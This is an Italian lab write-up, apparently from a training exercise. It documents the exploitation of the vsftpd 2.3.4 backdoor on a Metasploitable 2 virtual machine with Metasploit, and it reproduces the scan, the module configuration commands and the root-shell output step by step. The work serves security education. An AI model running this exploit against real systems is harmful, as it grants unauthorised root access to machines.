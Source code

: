 # 🚀 Hacking con Metasploit - Exploit vsftpd 2.3.4

## 📋 Descrizione dell'Esercizio
L'obiettivo di questa attività era condurre un attacco utilizzando **Metasploit Framework** contro una macchina virtuale vulnerabile **Metasploitable 2**. Abbiamo sfruttato una backdoor presente nel servizio **vsftpd 2.3.4** sulla porta FTP (21). 

🎯 **Risultato finale**: Creazione di una cartella chiamata **test_metasploit** all'interno della directory **/root** della macchina target, dimostrando il successo dell'attacco.

---

## 🛠️ Configurazione dell'Ambiente

### 🖥️ Macchina Attaccante
- **Sistema Operativo**: Kali Linux 2023.1
- **Strumento**: Metasploit Framework

### 🎯 Macchina Target
- **Sistema Operativo**: Metasploitable 2
- **Indirizzo IP**: `192.168.1.149/24`
- **Servizio Vulnerabile**: vsftpd 2.3.4
- **Porta FTP**: 21

---

## 🔎 Passaggi Eseguiti

### 1️⃣ Scansione del Servizio FTP
Ho utilizzato **Nmap** per verificare la presenza del servizio FTP sulla porta 21 della macchina target:
```bash
nmap -p 21 192.168.1.149
```
✅ **Output**:
```
PORT   STATE SERVICE
21/tcp open  ftp
```
La scansione conferma che il servizio FTP sulla porta 21 è attivo.

---

### 2️⃣ Avvio di Metasploit e Caricamento dell'Exploit
Ho avviato Metasploit e cercato l'exploit per **vsftpd 2.3.4**:
```bash
msfconsole
search vsftpd
```
Ho selezionato e configurato l'exploit:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.149
set RPORT 21
```

---

### 3️⃣ Esecuzione dell'Exploit
Ho lanciato l'exploit con il comando:
```bash
exploit
```

🚀 **Output**:
```
[*] 192.168.1.149:21 - The port used by the backdoor bind listener is already open
[+] 192.168.1.149:21 - UID: uid=0(root) gid=0(root)
[*] Command shell session 1 opened...
```
🎉 L'exploit ha avuto successo e ho ottenuto una **shell con privilegi root**.

---

### 4️⃣ Navigazione e Creazione della Cartella
Dopo aver ottenuto accesso alla shell, ho verificato la struttura delle directory e ho creato la cartella **test_metasploit**:
```bash
cd /root
mkdir test_metasploit
ls
```
✅ **Output**:
```
hacking_test  test_metasploit
```
📁 La cartella **test_metasploit** è stata creata con successo.

---

## 🖼️ Screenshot dei Risultati
1. **Avvio dell'Exploit**: Ottenimento della shell root.
2. **Creazione della Cartella**: Verifica della presenza di `test_metasploit`.

![Screen1](./Screen1.png) 
![Screen2](./Screen22.png) 
![Screen3](./Screenshot23.png)
![Screen4](./Screenshot24.png) 
![Screen5](./Screenshot25.png) 
![Screen6](./Screenshot26.png)


---

## 🏆 Risultati Finali
- ✅ **Accesso Root Ottenuto**: Ho sfruttato con successo la vulnerabilità del servizio `vsftpd 2.3.4`.
- 📂 **Creazione della Cartella**: La cartella `test_metasploit` è stata creata nella directory `/root`.

---

## 🔐 Conclusioni
L'esercizio ha dimostrato come una versione obsoleta e vulnerabile di un servizio possa essere sfruttata per ottenere accesso root a un sistema remoto. Questa attività evidenzia l'importanza di:
1. 🛡️ **Patch di Sicurezza**: Mantenere i servizi aggiornati.
2. 🔍 **Monitoraggio**: Controllare costantemente i servizi in ascolto su una macchina.
3. 🧪 **Ambienti Isolati**: Eseguire test di sicurezza in ambienti controllati come Metasploitable.

---

## 📚 Comandi Utilizzati
1. **Scansione Nmap**:
   ```bash
   nmap -p 21 192.168.1.149
   ```
2. **Configurazione Metasploit**:
   ```bash
   msfconsole
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.1.149
   set RPORT 21
   exploit
   ```
3. **Navigazione e Creazione Cartella**:
   ```bash
   cd /root
   mkdir test_metasploit
   ls
   ```

---

